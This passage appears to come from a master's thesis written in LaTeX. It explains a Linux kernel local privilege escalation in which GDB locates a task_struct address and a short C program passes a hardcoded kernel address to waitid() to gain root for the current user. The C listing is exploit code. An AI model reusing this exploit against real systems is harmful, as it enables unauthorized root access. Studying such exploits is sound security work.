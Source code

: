 \documentclass{masterthesis}
\begin{document}
This last piece of code allows us to write to a file the address of the \texttt{task\_struct} structure which have as their name the task we want to search for.

This program allows us to print the address of the structure relating to the name of the process contained in the \texttt{name\_task} variable both on the GDB terminal and within a file.

\subsection{LPE with C file}
\label{subsect:lpe_c}

It is possible to develop a program in C that takes as input the address returned within GDB with the program~\ref{lst:first_step} and modify the structure \texttt{signinfo\_t} of the process gaining root privileges.
We consider like a process the user bash (test) which we are inside.

\begin{lstlisting}[caption={C code for exploit},label={lst:ccode}]
int main(){
  int p;
  int err;
  if (fork()==0){
        p = getpid();
        unsigned long long addr = 0xffff880176e81600;
        err = waitid(P_PID,p,addr,WEXITED);
  }
  return 0;
}
\end{lstlisting}
\begin{figure}[h!]
  \caption{Example of local privilege escalation with GDB, DEBUG of Kernel and C file}\label{figure:lpe_c}
\end{figure}
The program \ref{lst:ccode} creates a fork~\cite{fork} and inserts the \emph{PID} of the newly created process into the waitid and waits for termination.
Using these few command lines, it is possible to obtain root privileges for the logged-in user.
 
\end{document}
